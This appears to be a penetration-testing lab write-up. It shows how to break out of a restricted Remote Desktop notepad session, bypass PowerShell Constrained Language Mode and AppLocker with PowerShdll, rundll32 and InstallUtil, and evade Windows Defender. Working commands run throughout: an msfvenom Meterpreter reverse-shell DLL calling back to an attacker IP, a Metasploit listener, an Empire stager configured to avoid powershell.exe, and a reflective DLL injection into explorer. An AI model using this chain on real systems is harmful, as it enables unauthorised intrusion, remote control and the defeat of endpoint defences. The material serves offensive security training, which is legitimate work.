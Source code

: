 # From RDS app to Empire shell

This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.  
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**

* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**

powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll  
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad

[https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/](https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/)  
[https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)

From the notepad app  
Click Help -&gt; View help -&gt; triggers Internet Explorer

![](/assets/viewhelp.png)

Right click on any link in IE -&gt; save target as -&gt; save as lol.ps1 on the Desktop

![](/assets/lolps1.png)  
Press view downloads in IE, press the dropdown on the file, open with -&gt; notepad. then just write powershell.exe in the file and save again

Now right click -&gt; "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

![](/assets/runwithps.png)

#### Bypssing PoSh constrained mode

Download PowerShdll from [https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll)  
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`  
Navigate to the following URL in IE where [http://10.7.253.10/PowerShdll.dll](http://10.7.253.10/PowerShdll.dll)  
Save as -&gt; PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. But navigating to folders might also be restricted, so in certain ocassions you might need to save to `C:\Users\Username\Desktop`![](/assets/dlpowershdll.png)

I'm not sure exactly how to check for DLL rules in an Applocked environment yet.

Now navigate to the desktop in the other powershell prompt  
Use rundll32 to execute the dll  
`rundll32 .\PowerShdll.dll,main -w`  
A new interactive powershell prompt should pop up  
Verify that constrained language mode has been bypassed with  
`$ExecutionContext.SessionState.LanguageMode`  
It should say FullLanguage

![](/assets/powershdll.png)

##### Shortcut

Ok, so I discovered much later how to avoid having to do the two last steps. Just generate an Empire stager with `set Base64 false` and `set Outfile shell`
Now from the unrestricted powershell, download the shell and execute it straight into memory. If you are lucky, Defender doesn't pick it up and you get an Empire shell / agent.

I realize after the fact that this is exactly the same steps as below, just fewer hoops.

#### 

#### Getting meterpreter shell

Generate a dll payload

```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```

Set up listener in msf with same payload, host and port.

```
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Download the msf.dll using the IE "save as" trick from before.  
![](/assets/dll.png)

For some reason I am not sure why the dll payload is not eaten by Windows Defender, not on disk and not when executed. It could possibly be the x64 signature of the payload is not yet recgonized as malware by Defender.

Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`

Shell should now spawn in msf.

![](/assets/msfshell.png)

#### Empire without powershell.exe

This assumes you have a metasploit Session established.  
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.

```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:

```
load powershell
powershell_shell
```

Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire.

![](/assets/powershell_shell.png)

![](/assets/empireagent.png)

Congratulations!

## More advanced technique

#### Bypassing powershell constrained mode and applocker

This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.  
[https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file

```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```

4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1

```
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

5 Base64 encode the entire script using [https://www.base64encode.org/](https://www.base64encode.org/)  
Open the Bypass project in VS and copypaste the base64 into the encoded variable.  
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```

### Useful links

* [https://github.com/Ben0xA/AwesomerShell](https://github.com/Ben0xA/AwesomerShell)
* [https://www.youtube.com/watch?v=czJrXiLs0wM](https://www.youtube.com/watch?v=czJrXiLs0wM)
* [https://adsecurity.org/?p=2921](https://adsecurity.org/?p=2921)
* [https://bneg.io/2017/07/26/empire-without-powershell-exe/](https://bneg.io/2017/07/26/empire-without-powershell-exe/)
* [https://artofpwn.com/offensive-and-defensive-powershell-ii.html](https://artofpwn.com/offensive-and-defensive-powershell-ii.html)
* [https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)
* [https://github.com/caseysmithrc/DeviceGuardBypasses](https://github.com/caseysmithrc/DeviceGuardBypasses)
* [https://github.com/Joshua1909/AllTheThings](https://github.com/Joshua1909/AllTheThings)
* [https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)



